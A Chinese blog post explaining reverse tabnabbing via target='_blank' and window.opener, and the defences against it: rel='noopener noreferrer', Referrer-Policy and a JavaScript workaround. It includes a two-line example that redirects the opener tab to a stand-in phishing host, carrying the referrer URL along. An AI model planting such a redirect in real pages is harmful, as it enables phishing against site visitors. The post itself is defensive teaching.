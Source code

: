 ```yaml
---
layout:     post                   
title:      危险的target="_blank"与"opener"
subtitle:   跳转新页面需要知道的事情
date:       2018-03-12
author:     chuck
header-img: img/home-bg-link.jpg
catalog: true                      
tags:                               
    - JavaScript
    - iframe
    - Window
    - 跨域
---
```


### 危险的target="_blank"与"opener"

在前端早读课上读到的文章，感觉又学到的新的知识，get！

-------

> 在网页中使用链接时，如果想要让浏览器自动在新的标签页打开指定的地址，通常的做法就是在 a 标签上添加 target等于”_blank” 属性。

> 然而，就是这个属性，为钓鱼攻击者带来了可乘之机。
 
 
#### parent与opener

首先需要说明的是，parent与opener都是window对象的属性。其中`window.parent`用来从框架中的页面访问父级页面的`window`。

`opener`与`parent`类似，用于`<a target="_blank">` 在新标签页打开的页面的。通过 `<a target="_blank">` 打开的页面，可以直接使用 `window.opener` 来访问来源页面的 `window` 对象。

浏览器提供了完整的跨域保护，在域名相同时，`parent` 对象和 `opener` 对象实际上就直接是上一级的 `window` 对象；而当域名不同时，`parent` 和 `opener` 则是经过包装的一个 `global` 对象。这个 `global` 对象仅提供非常有限的属性访问，并且在这仅有的几个属性中，大部分也都是不允许访问的（访问会直接抛出 `DOMException`）。

如果，你的网站上有一个链接，使用了 `target=”_blank”`，那么一旦用户点击这个链接并进入一个新的标签，新标签中的页面如果存在恶意代码，就可以将你的网站直接导航到一个虚假网站。此时，如果用户回到你的标签页，看到的就是被替换过的页面了。

#### 详细步骤

1：在你的网站 https://example.com 上存在一个链接：

```
<a href="https://an.evil.site"target="_blank">进入一个“邪恶”的网站</a>
```

2：用户点击了这个链接，在新的标签页打开了这个网站。这个网站可以通过 HTTP Header 中的 Referer 属性来判断用户的来源。并且，这个网站上包含着类似于这样的 JavaScript 代码：

```
const url =encodeURIComponent('{{header.referer}}');
window.opener.location.replace('https://a.fake.site/?'+ url);
```

    1. 此时，用户在继续浏览这个新的标签页，而原来的网站所在的标签页此时已经被导航到了 https://a.fake.site/?https%3A%2F%2Fexample.com%2F。
    
    2. 恶意网站 https://a.fake.site 根据 Query String 来伪造一个足以欺骗用户的页面，并展示出来（期间还可以做一次跳转，使得浏览器的地址栏更具有迷惑性）。
    
    3. 用户关闭 https://an.evil.site 的标签页，回到原来的网站………………已经回不去了。

与 parent 不同的是，在跨域的情况下，opener 仍然可以调用 **`location.replace`** 方法而 parent 则不可以。

如果是在同域的情况下（比如一个网站上的某一个页面被植入了恶意代码），则情况要比上面严重得多。

划重点：**在跨域的情况下，opener 仍然可以调用 location.replace 方法来替换原来标签页的URL。**

#### 防御

`<iframe>` 中有 sandbox 属性，而链接，则可以使用下面的办法：

##### 1. Referrer Policy 和 noreferrer

上面的攻击步骤中，用到了 HTTP Header 中的 Referer 属性，实际上可以在 HTTP 的响应头中增加 `Referrer Policy` 头来保证来源隐私安全。

`Referrer Policy` 需要修改后端代码来实现，而在前端，也可以使用 `<a>` 标签的 rel 属性来指定 `rel=”noreferrer”` 来保证来源隐私安全。

```
<a href="https://an.evil.site" target="_blank" rel="noreferrer">进入一个“邪恶”的网站</a>

// 但是要注意的是：即使限制了 referer 的传递，仍然不能阻止原标签被恶意跳转。
```

##### 2. noopener

为了安全，现代浏览器都支持在 `<a>`标签的 rel 属性中指定 `rel=”noopener”`，这样，在打开的新标签页中，将无法再使用 `opener` 对象了，它为设置为了 `null`。

```
<a href="https://an.evil.site"target="_blank"rel="noopener">进入一个“邪恶”的网站</a>
```

##### 3. JavaScript

noopener 属性绝大多数现代浏览器已经兼容，但是比较古老的浏览器就不认识了。这时就需要用到原生JS了。

```
"use strict";
function openUrl(url) {
  var newTab = window.open();
  newTab.opener = null;
  newTab.location = url;
}
```

#### 推荐写法

首先，在网站中的链接上，如果使用了 `target=”_blank”`，就要带上 `rel=”noopener”`，并且建议带上 `rel=”noreferrer”`。

当然，在跳转到第三方网站的时候，为了 SEO 权重，还建议带上 `rel=”nofollow”`，所以最终类似于这样：


```
<a href="https://an.evil.site" target="_blank" rel="noopener noreferrer nofollow">进入一个“邪恶”的网站</a>
```

#### 性能

如果网站使用了 `<a target="_blank">`，那么新打开的标签页的性能将会影响到当前页面。此时如果新打开的页面中执行了一个非常庞大的 JavaScript 脚本，那么原始标签页也会受到影响，会出现卡顿的现象（当然不至于卡死）。

而如果在链接中加入了 `noopener`，则此时两个标签页将会互不干扰，使得原页面的性能不会受到新页面的影响。


原文链接：https://knownsec-fed.com/2018-03-01-wei-xian-de-targetblank-yu-opener/

